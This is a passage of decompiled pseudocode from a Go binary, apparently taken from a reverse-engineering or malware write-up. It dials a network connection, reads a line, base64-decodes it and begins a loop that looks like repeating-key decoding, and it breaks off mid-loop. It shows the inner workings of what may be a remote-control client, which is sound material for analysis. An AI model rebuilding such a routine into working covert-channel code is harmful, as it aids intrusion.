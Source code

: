 ```C
              local_d8 = local_c4;
              net_Dial();
              local_54 = local_44;
              local_4c = (undefined4 *)&_gp_4;
              do {
                puVar2 = local_4c;
                runtime_convI2I();
                pcVar3 = local_54;
                if (((uint)local_dc ^ 0x39edb4) != 0) {
                  pcVar3 = (char *)0x0;
                }
                local_50 = local_dc;
                if ((((uint)local_dc ^ 0x39edb4) != 0) || (*(int *)(pcVar3 + 4) < 0x1000)) {
                  runtime_newobject();
                  runtime_makeslice();
                  puVar1 = &local_30;
                  do {
                    puVar1[1] = 0;
                    puVar1 = puVar1 + 1;
                  } while (&local_4 != puVar1);
                  local_2c = local_d8;
                  local_28 = 0x1000;
                  local_24 = 0x1000;
                  local_20 = local_50;
                  local_1c = local_54;
                  local_8 = 0xffffffff;
                  local_4 = 0xffffffff;
                  if (runtime_writeBarrier._0_4_ == 0) {
                    puVar1 = &local_30;
                    do {
                      *puVar2 = puVar1[1];
                      puVar1 = puVar1 + 1;
                      puVar2 = puVar2 + 1;
                    } while (&local_4 != puVar1);
                  }
                  else {
                    runtime_typedmemmove();
                  }
                  pcVar3 = &_gp_3;
                }
                bufio___Reader__ReadString(pcVar3);
                if ((int)local_d8 < 2) {
                  return;
                }
                encoding_base64___Encoding__DecodeString();
                if (local_cc != 0) {
                    /* WARNING: Subroutine does not return */
                  runtime_gopanic();
                }
                local_5c = local_d8;
                runtime_makeslice();
                for (i = (undefined **)0x0; (int)i < (int)local_d4; i = (undefined **)((int)i + 1))
                {
                  if (local_d4 <= i) {
                    /* WARNING: Subroutine does not return */
                    runtime_panicIndex();
                  }
                  if (local_c0 == 0) {
                    /* WARNING: Subroutine does not return */
                    runtime_panicdivide();
                  }
                  if (local_c0 <= (uint)((int)i % (int)local_c0)) {
                    /* WARNING: Subroutine does not return */
```